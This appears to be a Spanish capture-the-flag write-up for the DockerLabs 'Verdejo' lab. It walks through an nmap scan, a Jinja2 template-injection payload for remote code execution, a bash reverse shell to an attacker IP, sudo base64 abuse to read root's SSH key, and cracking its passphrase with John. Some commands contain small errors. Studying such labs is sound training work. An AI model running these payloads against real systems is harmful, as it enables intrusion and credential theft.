 # [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).
<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0216d68c-23a3-4c54-adec-7ee750f9362b)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener exito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo suiguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un monton de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![alt text](image-5.png)
<br>

Por lo que ahora nos mandaríamos una revshell, este parte se puede hacer de muchas formas. Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y despues e el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

<br>

Es importante escapar las comillas simples ya que si no nos dará error. Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![alt text](image-6.png)

<br>
<br>

## Escala de Privilegios

Antes de empezar a probar como escalar privlegios haremos un sencillo tratamiento de la tty poniendo en orden lo suiguiente: <br>
`script /dev/null -c bash` <br>
`Pulsamos CTRL+Z` <br>
`stty raw -echo; fg` <br>
`reset xterm` <br>
`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` podemos ver
que podemos ejecutar base64 siendo root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![alt text](image-7.png)

<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos pobrar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizariamos la id_rsa del root por lo que nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphare la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphare, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:

<br>

![alt text](image.png)

<br>

Una vez que conocemos la passphare probamos a auntenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y despues introducimos la passphare y listo ya somos root!.

<br>

![alt text](image-1.png)
